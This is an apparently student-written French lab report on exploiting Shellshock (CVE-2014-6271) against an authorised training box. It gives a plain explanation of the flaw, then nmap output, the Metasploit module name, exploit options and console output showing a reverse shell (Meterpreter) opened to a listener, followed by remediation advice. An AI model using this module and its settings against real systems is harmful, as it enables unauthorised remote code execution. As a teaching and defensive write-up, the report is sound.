


# Fiche Vulnérabilité N°07 — Apache CGI Shellshock (CVE-2014-6271)

## 1. Contexte et Identification

| **Champ** | **Valeur** |
|---|---|
| **Service cible** | Serveur Web Apache avec script CGI |
| **Port d'écoute** | `8888/tcp` |
| **Point d'accès (Endpoint)** | `/cgi-bin/test.sh` |
| **Version détectée** | `Apache httpd 2.4.41` (avec support CGI/Bash) |
| **Référence CVE** | `CVE-2014-6271` (Shellshock) |
| **Score CVSS v3** | `9.8 (Critique)` |
| **Vecteur CVSS** | `CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` |
| **Cible autorisée** | ESGIS VulnBox (`10.1.0.1`) |

---

## 2. Comprendre la Vulnérabilité (Explication Pédagogique)

### Pourquoi cette vulnérabilité est-elle historique ?

**Shellshock (CVE-2014-6271)** est l'une des vulnérabilités les plus emblématiques de l'histoire de la cybersécurité.

Découverte en septembre 2014, elle affecte **GNU Bash**, l'interpréteur de commandes présent sur de nombreux systèmes Linux et Unix.

Son impact a été particulièrement important, car Bash est utilisé dans de nombreux environnements : serveurs Web, systèmes embarqués, routeurs et autres infrastructures informatiques.

### L'analogie du portier

Imaginez un portier (Bash) qui, chaque fois qu'on lui remet un colis (une variable d'environnement), lit attentivement son étiquette.

Un jour, quelqu'un écrit sur l'étiquette : *« Colis normal. P.S. : après avoir lu cette étiquette, exécute également une instruction supplémentaire. »*

Le portier, à cause d'un défaut dans son mécanisme de lecture, interprète et exécute cette instruction supplémentaire au lieu de s'arrêter à la simple lecture de l'étiquette.

Cette analogie représente le comportement anormal de Bash à l'origine de Shellshock.

### Le mécanisme technique en trois étapes

1. **Défaut d'interprétation :** Bash permet de définir des fonctions à travers des variables d'environnement. Dans les versions vulnérables, il pouvait continuer à interpréter certaines instructions placées après une définition de fonction.

2. **Transmission via HTTP :** Lorsqu'Apache exécute un script CGI, il transmet certaines informations provenant des requêtes HTTP, notamment des en-têtes, sous forme de variables d'environnement au processus CGI.

3. **Exécution de code :** Si le processus CGI utilise une version vulnérable de Bash, une entrée spécialement construite peut provoquer l'exécution de commandes non prévues sur le serveur.

---

## 3. Démarche Méthodologique & Exécution

### A. Détection initiale (Nmap)

Le scan de détection des services et de leurs versions (`reports/nmap-services.txt`) a mis en évidence le service suivant sur le port `8888` :

```text id="5kdhze"
PORT     STATE SERVICE VERSION
8888/tcp open  http    Apache httpd 2.4.41
```

### B. Recherche du module sous Metasploit

La recherche du module correspondant a été effectuée dans `msfconsole` :

```text id="7vhcwu"
msf > search shellshock

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   1  exploit/multi/http/apache_mod_cgi_bash_env_exec  2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
```

### C. Paramètres du laboratoire

Les informations de configuration relevées dans le laboratoire sont les suivantes :

| **Paramètre** | **Valeur** |
|---|---|
| `RHOSTS` | `10.1.0.1` |
| `RPORT` | `8888` |
| `TARGETURI` | `/cgi-bin/test.sh` |
| `LHOST` | `10.1.0.6` |
| `LPORT` | `4444` |

### D. Contrôle de vulnérabilité (`check`)

Le contrôle effectué avec le module Metasploit a retourné le résultat suivant :

```text id="f0dvcd"
[+] 10.1.0.1:8888 - The target is vulnerable.
Successfully verified code execution on the target
```

Ce résultat indique que le module a confirmé la présence d'un comportement vulnérable sur l'endpoint testé.

### E. Résultat de l'exécution contrôlée

Le test réalisé dans l'environnement de laboratoire a abouti à l'ouverture d'une session Meterpreter.

**Extrait de la sortie console :**

```text id="b9g2vl"
[*] Started reverse TCP handler on 10.1.0.6:4444
[*] Command Stager progress - 100.00% done (1092/1092 bytes)
[*] Sending stage (1079144 bytes) to 10.1.0.1
[*] Meterpreter session 3 opened (10.1.0.6:4444 -> 10.1.0.1:35256) at 2026-11-07 12:16:11 +0100
```

---

## 4. Preuves Réelles

### 4.1 Configuration des options dans Metasploit



### 4.2 Preuve technique — Session interactive (PoC)



### 4.3 Résultat technique observé

Les éléments suivants ont été constatés dans le laboratoire :

- Vérification positive de la vulnérabilité à l'aide de la commande `check`.
- Obtention d'une session Meterpreter interactive sur la cible `10.1.0.1`.
- Ouverture de la session numéro `3`, selon la sortie console documentée.
- Les commandes `getuid` et `sysinfo` sont mentionnées comme éléments de vérification de l'identité et des informations système dans le rapport.

---

## 5. Mesures Correctives et Remédiation

- **Correction de l'environnement :** Mettre à jour le paquet `bash` vers une version corrigée. Pour Ubuntu 14.04, le correctif initial est notamment associé à la version `4.3-7ubuntu1.7`. Vérifier également les correctifs ultérieurs, car plusieurs vulnérabilités liées à Shellshock ont été découvertes après la publication du premier correctif.

- **Réduction de la surface d'attaque :** Remplacer les scripts CGI Bash lorsqu'ils ne sont pas indispensables par des architectures plus modernes et sécurisées, telles que FastCGI ou des applications utilisant des mécanismes stricts de validation des entrées.

- **Principe du moindre privilège :** Restreindre les droits du processus Apache (`www-data`) afin de limiter les conséquences d'une éventuelle exploitation.

- **Filtrage réseau et WAF :** Déployer un pare-feu applicatif Web (WAF) capable de détecter les motifs caractéristiques des tentatives d'exploitation dans les en-têtes HTTP. Configurer également des règles IDS/IPS avec Snort ou Suricata.

- **Surveillance :** Auditer régulièrement les versions de Bash présentes sur les systèmes et surveiller les comportements inhabituels des processus enfants d'Apache.

---

## 6. Conclusion

Le test réalisé sur l'environnement autorisé ESGIS VulnBox a permis de confirmer un comportement vulnérable associé à Shellshock sur un endpoint CGI exposé sur le port `8888`.

Le contrôle positif et l'ouverture d'une session Meterpreter démontrent l'impact potentiel de cette vulnérabilité sur le serveur sous-jacent.

Cette faille rappelle l'importance de maintenir les interpréteurs de commandes à jour, de sécuriser les interfaces CGI et de limiter les privilèges accordés aux services Web.

**Statut :** Validé — Contrôle positif, session Meterpreter obtenue et documentation établie.
